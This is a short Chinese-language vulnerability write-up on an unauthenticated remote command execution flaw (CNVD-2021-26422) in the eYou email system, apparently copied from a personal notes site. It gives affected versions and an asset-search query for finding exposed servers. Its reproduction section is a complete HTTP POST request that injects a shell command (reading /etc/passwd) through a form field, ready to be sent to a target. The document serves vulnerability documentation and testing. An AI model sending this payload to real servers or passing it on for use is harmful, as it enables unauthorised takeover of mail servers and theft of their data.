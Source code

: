 # 亿邮电子邮件系统远程命令执行漏洞-(CNVD-2021-26422)

## 一、漏洞描述
亿邮电子邮件系统是由北京亿中邮信息技术有限公司（以下简称亿邮公司）开发的一款面向中大型集团企业、政府、高校用户的国产邮件系统。未经身份验证的攻击者利用该漏洞，可通过精心构造恶意请求，使用POST方法在目标服务器执行命令，获取目标服务器权限，控制目标服务器。

## 二、影响版本
亿邮电子邮件系统V8.3-V8.13的部分二次开发版本

## 三、资产测绘
+ hunter`app.name="eYou 亿邮"`
+ 特征

![1696567603305-22b3df25-983e-4f42-af65-71eb8a482b42.png](./img/o9mcm2_H8tummENZ/1696567603305-22b3df25-983e-4f42-af65-71eb8a482b42-511744.png)

## 四、漏洞复现
```java
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 25
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: chrome-extension://ieoejemkppmjcdfbnfphhpbfmallhfnc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: EMPHPSID=ffah74s753ae239996a1mmbld0; empos=0
Connection: close

type='|cat /etc/passwd||'
```

![1696567646952-f83681b0-97b3-4e30-a215-9fca047ba97b.png](./img/o9mcm2_H8tummENZ/1696567646952-f83681b0-97b3-4e30-a215-9fca047ba97b-471511.png)



> 更新: 2024-02-29 23:57:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gn2zrdm01ief5yn7>